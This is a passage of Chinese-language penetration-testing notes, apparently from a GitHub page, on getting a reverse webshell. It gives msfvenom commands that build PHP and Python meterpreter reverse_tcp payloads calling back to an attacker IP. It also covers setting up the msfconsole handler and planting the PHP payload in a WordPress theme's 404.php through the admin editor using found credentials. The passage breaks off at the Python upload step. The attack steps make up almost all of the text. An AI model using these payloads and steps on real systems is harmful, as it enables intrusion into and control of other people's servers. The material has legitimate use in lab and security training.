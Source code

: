2. 反弹 webshell

   * 方式一：使用 msfvenom 制作webshell

    ```shell
    # ---------------------php-----------------
    # 1. 制作 webshell
    msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机 IP lport=4444 -f raw # 复制输出的 <?php 开头的字段
    # 2. 启用监听
    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 192.168.1.2 # 设置 shell 要返回的地址（攻击机 IP）
    set lport 4444
    show options # 查看参数信息，注意ip和端口，端口要和上传 的 webshell 一样啊
    run # 开始监听本地IP的端口有没有返回这样一个tcp连接
    # 3. 上传 webshell
    #   使用找到的敏感信息登陆系统后台，上传 webshell。
    #   对于 wordpress 的后台（一般登录页面是wp-login.php） ，在左侧的 Appearance --> Editor --> 点击右侧的 404. php --> 把 webshell 粘贴上传。(此时需要记住地址栏的地址, 或者是 编辑框上的 xxx:Stylesheet)
    # 4. 执行 webshel
    #   在浏览器访问 http://IP/wordpresswp-content/themes/twentyfourteen/404.php (需要修改的是 themes/后的文件夹路径，根据第三步记住的地址修改,也就是那个xxx，如：Twenty Thirteen 修改成twentythirteen)
    # 5. 看看攻击机的终端，返回了 webshell
    # 输入命令看看：
    id # 如果提示 command not found, 先输入 shell（在进入shell前通过 sysinfo 查看系统信息）

    # --------------------python----------------------
    # 1. 制作 webshell
    msfvenom -p python/meterpreter/reverse_tcp lhost=攻击机 IP lport=4444 -f raw > ~/Desktop/shell.py
    # 2. 启用监听
    msfconsole
    use exploit/multi/handler
    set payload python/meterpreter/reverse_tcp
    set lhost 192.168.1.2 # 设置 shell 要返回的地址（攻击机 IP）
    set lport 4444
    show options # 查看参数信息，注意ip和端口，端口要和上传 的 webshell 一样啊
    run # 开始监听本地IP的端口有没有返回这样一个tcp连接
    # 3. 上传 webshell（这个和php的shell不一样的是，php通过浏览器访问相应的页面执行shell，python就需要想办法让靶机执行这个脚本，比如有ssi注入漏洞的，就可以提交相关命令来执行）